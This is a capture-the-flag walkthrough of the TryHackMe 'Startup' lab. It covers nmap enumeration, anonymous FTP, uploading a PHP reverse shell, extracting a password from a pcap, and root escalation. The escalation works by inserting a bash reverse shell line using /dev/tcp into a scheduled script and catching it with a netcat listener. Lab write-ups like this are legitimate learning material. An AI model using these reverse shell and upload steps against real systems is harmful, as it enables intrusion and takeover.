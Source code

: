 # Startup

To find out what is on the server, we will have to run an nmap scan on the IP address. I will be using the following command:

```csharp
nmap -T4 -A 10.10.201.52 -oN nmap.txt
```

After the scan is done, we can see that port 21 \(usually for FTP\) is open:

```csharp
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
```

These files look interesting, so I will download them. I following [this website](https://stackoverflow.com/questions/113886/how-to-recursively-download-a-folder-via-ftp-on-linux) to find out how to download files from ftp recursively, instead of one-by-one. This is the command I entered:

```csharp
wget -r ftp://anonymous:@10.10.201.52
```

I then had 3 items in my local directory: an image, a text file, and a directory called "ftp". I now have to find any useful information from these files. I noticed that in the text file, called "notice.txt, there is a name being used:

> Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

I did get lost a bit here. I knew we had to upload a file to the ftp directory. If you look above, the ftp directory is able to be read and posted to. That connected with the idea that we can access the ftp files on [http://10.10.201.52/files/](http://10.10.201.52/files/), means that we can upload the php file and then access it through the website. For this, we will have to use a php-reverse-shell.php. I had gotten this hint by looking at the write-up at [this website](https://www.badtothepwn.com/2021/01/startup/). I uploaded the php-reverse-shell.php to the ftp directory using the ftp command line. I then went to the website, and then got a shell:

![netcat shell](../../.gitbook/assets/image%20%2810%29.png)

Using netcat, we can send and receive information. Here we are able to send linux commands. I found the recipe file and it was in the root directory of the system.

![output of recipe.txt](../../.gitbook/assets/screenshot-2021-03-07-162434.png)

I now have to find a way to get more forward in the system. I have found a pcap file that looks suspicious.

![](../../.gitbook/assets/image%20%2811%29.png)

I will have to download it to see where to go from there. I realized that using net cat from the server to my own machine, I would be able to send this file to myself. I used [this website](https://superuser.com/questions/98089/sending-file-via-netcat) to know the command for what to run on both sides. I now have the file downloaded onto my own machine. After getting a hint from [this website](https://hackofalltrades.dev/tryhackmes-startup-walkthrough/), I realized that I would have to look through the packets to find the password. I then found it in the data of a packet.

![](../../.gitbook/assets/screenshot-2021-03-07-165106.png)

From here, I can use it to login to the user "lennie". I then used ssh to connect to the server using that username:

![SSH connection](../../.gitbook/assets/image%20%289%29.png)

In this directory, there was the file "user.txt". Looking in this, gets us an answer to one of the questions for this room.

![user.txt file](../../.gitbook/assets/screenshot-2021-03-07-165659.png)

Now, I have to find a way to get to root. I did need some help here again. I then referred back to the same website and noticed that I would have to edit a file located in /etc/print.sh. Viewing this website, I realized that I have to add a reverse bash shell to this file. This would make the file look like:

```csharp
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.2.54.229/1234 0>&1
echo "Done!"
```

I will then have to run netcat on my machine, that way I am ready for the netcat connection. Running "nc -vlnp 1234" will allow my machine to be open to a connection through netcat. After a couple minutes, I then got a connection to the root user.

![root access](../../.gitbook/assets/screenshot-2021-03-07-171544.png)

I then had root and also the final flag needed to finish the room.

